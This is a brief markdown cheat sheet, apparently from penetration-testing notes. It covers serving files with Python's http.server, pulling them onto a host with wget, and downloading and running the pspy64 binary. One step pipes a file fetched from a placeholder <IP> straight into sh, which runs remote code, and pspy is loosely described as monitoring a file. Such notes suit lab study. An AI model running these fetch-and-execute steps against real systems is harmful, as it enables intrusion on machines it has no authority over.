 # Python

We can use Python for a variety of tasks, including:

## Start a web server

```bash
python3 -m http.server 8000
```

## Download a file from the web server

```bash
wget http://<IP>:8000/file
```

## Execute a file from the web server

```bash
curl http://<IP>:8000/file | sh
```

## Monitor a file

We can use `pspy` to monitor a file.

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod +x pspy64
./pspy64 <FILE>
```